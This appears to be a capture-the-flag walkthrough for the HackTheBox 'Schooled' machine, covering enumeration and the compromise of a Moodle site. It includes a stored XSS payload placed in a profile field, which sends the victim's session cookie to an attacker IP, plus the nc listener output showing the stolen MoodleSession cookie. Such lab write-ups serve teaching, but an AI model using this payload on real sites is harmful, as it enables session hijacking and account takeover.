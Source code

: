 [root:~]# systemctl start snapd.service
[root:~]# systemctl status snapd.service
[root:~]# snap install mysql-shell
  mysql-shell 8.0.23 from Canonical✓ installed

[root:~]# /bin/bash
root@nidus:~# mysqlsh
  MySQL Shell 8.0.23

  Type '\help' or '\?' for help; '\quit' to exit.
  mysql-py> \c root@schooled.htb
    Creating a session to 'root@schooled.htb'
    Please provide the password for 'root@schooled.htb': ****
    MySQL Error 1045: Access denied for user 'root'@'10.10.14.8' (using password: YES)

We lack any credentials however, so continue to enumerate.

Enumerate vhosts with gobuster:
  [root:/git/htb/schooled]# gobuster vhost -v -u http://schooled.htb -w /usr/share/wordlists/dirb/big.txt -o go-vhosts.txt
  [root:/git/htb/schooled]#  cat go-vhosts.txt | grep Found:
    Found: moodle.schooled.htb (Status: 200) [Size: 84]

While waiting for the results I found this interesting sentence on the homepage; 'All content will be delivered over Moodle.'
Add moodle.schooled.htb in /etc/hosts.


3. Create a new account.

Username: testtest
Password: Test123!
Email: testtest@student.schooled.htb

We have the option to upload files, however it seem like we can't execute them server side. Trying to access the uploaded file
automatically trigger a download.

Enroll to Mathematics course, from the announcements we find:
  > This is a self enrollment course. For students who wish to attend my lectures be sure that you have your MoodleNet profile set.
  > Students who do not set their MoodleNet profiles will be removed from the course before the course is due to start and I will be checking all students who are enrolled on this course.
  > Look forward to seeing you all soon.
  > Manuel Phillips

Going to our profile, and clicking 'Edit Profile' we have the option to specify 'MoodleNet profile', we can probably use
this to create steal Manuel Phillips admin cookie.

MoodleNet Profile: <script> document.write('<img src="http://10.10.14.8?c='+document.cookie+'" />'); </script>

[root:/git/htb/schooled]# nc -lvnp 80                                                                                             (master✱)
  listening on [any] 80 ...
  connect to [10.10.14.8] from (UNKNOWN) [10.10.10.234] 42693
  GET /?c=MoodleSession=rktqego8s482a68uaog926rpjl HTTP/1.1
  Host: 10.10.14.8
  User-Agent: Mozilla/5.0 (X11; FreeBSD amd64; rv:86.0) Gecko/20100101 Firefox/86.0
  Accept: image/webp,*/*
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Connection: keep-alive
  Referer: http://moodle.schooled.htb/moodle/user/profile.php?id=29
